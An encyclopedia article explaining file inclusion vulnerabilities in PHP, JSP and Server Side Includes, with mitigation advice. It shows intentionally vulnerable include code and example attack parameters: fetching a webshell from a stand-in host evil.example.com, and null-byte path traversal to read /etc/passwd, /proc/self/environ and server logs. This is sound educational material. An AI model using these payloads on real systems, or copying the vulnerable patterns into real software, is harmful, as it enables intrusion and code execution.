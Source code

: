 Types of Inclusion\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=1 "Edit section: Types of Inclusion")\]
--------------------------------------------------------------------------------------------------------------------------------------------------------------

### Remote file inclusion\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=2 "Edit section: Remote file inclusion")\]

**Remote file inclusion** (**RFI**) occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the form of an [HTTP](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol "Hypertext Transfer Protocol") or [FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol "File Transfer Protocol") [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier "Uniform Resource Identifier") as a user-supplied parameter to the web application.

### Local file inclusion\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=3 "Edit section: Local file inclusion")\]

**Local file inclusion** (**LFI**) is similar to a remote file inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server can be included for execution. This issue can still lead to remote code execution by including a file that contains attacker-controlled data such as the web server's access logs.

Programming languages\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=4 "Edit section: Programming languages")\]
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

### PHP\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=5 "Edit section: PHP")\]

In [PHP](https://en.wikipedia.org/wiki/PHP "PHP") the main cause is due to the use of unvalidated user-input with a filesystem function that includes a file for execution. Most notable are the `include` and `require` statements. Most of the vulnerabilities can be attributed to novice programmers not being familiar with all of the capabilities of the PHP programming language. The PHP language has a directive which, if enabled, allows filesystem functions to use a [URL](https://en.wikipedia.org/wiki/URL "URL") to retrieve data from remote locations.[\[1\]](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_note-remote-1) The directive is `allow_url_fopen` in PHP versions <= 4.3.4 and `allow_url_include` since PHP 5.2.0. In PHP 5.x this directive is disabled by default, in prior versions it was enabled by default.[\[2\]](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_note-2) To exploit the vulnerability an attacker will alter a variable that is passed to one of these functions to cause it to include malicious code from a remote resource. To mitigate this vulnerability all user input needs to be [validated](https://en.wikipedia.org/wiki/Data_validation "Data validation") before being used.[\[3\]](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_note-3)[\[4\]](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_note-4)

#### Example\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=6 "Edit section: Example")\]

Consider this [PHP](https://en.wikipedia.org/wiki/PHP "PHP") script which includes a file specified by request:

<?php
if (isset($\_GET\['language'\])) {
    include($\_GET\['language'\] . '.php');
}
?>

<form method\="get"\>
   <select name\="language"\>
      <option value\="english"\>English</option\>
      <option value\="french"\>French</option\>
      ...
   </select\>
   <input type\="submit"\>
</form\>

The developer intended to read in `english.php` or `french.php`, which will alter the application's behavior to display the language of the user's choice. But it is possible to inject another path using the `language` parameter.

-   `/vulnerable.php?language=**http://evil.example.com/webshell.txt?**` \- injects a remotely hosted file containing a malicious code (remote file include)
-   `/vulnerable.php?language=**C:\\ftp\\upload\\exploit**` \- Executes code from an already uploaded file called `exploit.php` (local file inclusion vulnerability)
-   `/vulnerable.php?language=**C:\\notes.txt%00**` \- example using [NULL](https://en.wikipedia.org/wiki/Null_character "Null character") [meta character](https://en.wikipedia.org/wiki/Meta_character "Meta character") to remove the `.php` suffix, allowing access to files other than `.php`. This use of null byte injection was patched in PHP 5.3, and can no longer be used for LFI/RFI attacks.[\[5\]](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_note-5)
-   `/vulnerable.php?language=**../../../../../etc/passwd%00**` \- allows an attacker to read the contents of the `/etc/passwd` file on a [Unix-like](https://en.wikipedia.org/wiki/Unix-like "Unix-like") system through a [directory traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack "Directory traversal attack").
-   `/vulnerable.php?language=**../../../../../proc/self/environ%00**` \- allows an attacker to read the contents of the `/proc/self/environ` file on a [Unix-like](https://en.wikipedia.org/wiki/Unix-like "Unix-like") system through a [directory traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack "Directory traversal attack"). An attacker can modify a [HTTP](https://en.wikipedia.org/wiki/HTTP "HTTP") header (such as `User-Agent`) in this attack to be PHP code to exploit [remote code execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution "Arbitrary code execution").

The best solution in this case is to use a whitelist of accepted language parameters. If a strong method of input validation such as a whitelist cannot be used, then rely upon input filtering or validation of the passed-in path to make sure it does not contain unintended characters and character patterns. However, this may require anticipating all possible problematic character combinations. A safer solution is to use a predefined Switch/Case statement to determine which file to include rather than use a URL or form parameter to dynamically generate the path.

### JavaServer Pages (JSP)\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=7 "Edit section: JavaServer Pages (JSP)")\]

[JavaServer Pages](https://en.wikipedia.org/wiki/JavaServer_Pages "JavaServer Pages") (JSP) is a scripting language which can include files for execution at runtime.

#### Example\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=8 "Edit section: Example")\]

The following script is vulnerable to a file inclusion vulnerability:

<%
   String p \= request.getParameter("p");
   @include file\="<%="includes/" + p +".jsp"%>"
%>

-   `/vulnerable.jsp?p=../../../../var/log/access.log%00` \- Unlike PHP, JSP is still affected by Null byte injection, and this param will execute JSP commands found in the web server's access log.

### Server Side Includes (SSI)\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=9 "Edit section: Server Side Includes (SSI)")\]

A [Server Side Include](https://en.wikipedia.org/wiki/Server_Side_Includes "Server Side Includes") is very uncommon and are not typically enabled on a default web server. A server-side include can be used to gain remote code execution on a vulnerable web server.[\[6\]](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_note-6)

#### Example\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=10 "Edit section: Example")\]

The following code is vulnerable to a remote-file inclusion vulnerability:

<!DOCTYPE html>
<html\>
<head\>
<title\>Test file</title\>
</head\>
<body\>
<!--#include file="USER\_LANGUAGE"-->
</body\>
</html\>

The above code is not an [XSS vulnerability](https://en.wikipedia.org/wiki/Cross-site_scripting "Cross-site scripting"), but rather including a new [file](https://en.wikipedia.org/wiki/Computer_file "Computer file") to be executed by the server.

See also\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=11 "Edit section: See also")\]
-------------------------------------------------------------------------------------------------------------------------------------------

-   [Attack (computing)](https://en.wikipedia.org/wiki/Attack_(computing) "Attack (computing)")
-   [Code injection](https://en.wikipedia.org/wiki/Code_injection "Code injection")
-   [Metasploit Project](https://en.wikipedia.org/wiki/Metasploit_Project "Metasploit Project"), an open-source penetration testing tool that includes tests for RFI
-   [SQL injection](https://en.wikipedia.org/wiki/SQL_injection "SQL injection")
-   [Threat (computer)](https://en.wikipedia.org/wiki/Threat_(computer) "Threat (computer)")
-   [w3af](https://en.wikipedia.org/wiki/W3af "W3af"), an open-source [web application security scanner](https://en.wikipedia.org/wiki/Web_application_security_scanner "Web application security scanner")
-   [Default Credential vulnerability](https://en.wikipedia.org/wiki/Default_Credential_vulnerability "Default Credential vulnerability")

References\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=12 "Edit section: References")\]
-----------------------------------------------------------------------------------------------------------------------------------------------

1.  **[^](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_ref-remote_1-0 "Jump up")** ["Using remote files"](http://www.php.net/manual/en/features.remote-files.php). PHP. Retrieved March 3, 2013.
2.  **[^](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_ref-2 "Jump up")** ["List of php.ini directives"](http://php.net/manual/en/ini.list.php). PHP. Retrieved October 21, 2016.
3.  **[^](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_ref-3 "Jump up")** ["Remote File Inclusion"](http://projects.webappsec.org/Remote-File-Inclusion). The Web Application Security Consortium. Retrieved March 3, 2013.
4.  **[^](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_ref-4 "Jump up")** ["CWE-98: Improper Control of Filename for Include/Require Statement in PHP Program ('PHP Remote File Inclusion')"](http://cwe.mitre.org/data/definitions/98.html). _Common Weakness Enumeration (CWE)_. Mitre. Retrieved March 3, 2013.
5.  **[^](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_ref-5 "Jump up")** ["PHP :: Request #39863 :: file\_exists() silently truncates after a null byte"](https://bugs.php.net/bug.php?id=39863). _bugs.php.net_. Retrieved 2016-10-21.
6.  **[^](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#cite_ref-6 "Jump up")** ["Apache httpd Tutorial: Introduction to Server Side Includes - Apache HTTP Server Version 2.4"](http://httpd.apache.org/docs/current/howto/ssi.html#exec). _httpd.apache.org_. Retrieved 2016-10-21.

External links\[[edit](https://en.wikipedia.org/w/index.php?title=File_inclusion_vulnerability&action=edit&section=13 "Edit section: External links")\]
-------------------------------------------------------------------------------------------------------------------------------------------------------

-   [Remote File Inclusion](http://projects.webappsec.org/Remote-File-Inclusion) at the Web Application Security Consortium
-   [Local File Inclusion](https://blog.detectify.com/post/33582910583/the-basics-of-local-file-inclusions)
-   [Local & Remove File Inclusion WordPress](https://secure.wphackedhelp.com/blog/remote-local-file-inclusion-vulnerability/) at WP Hacked Help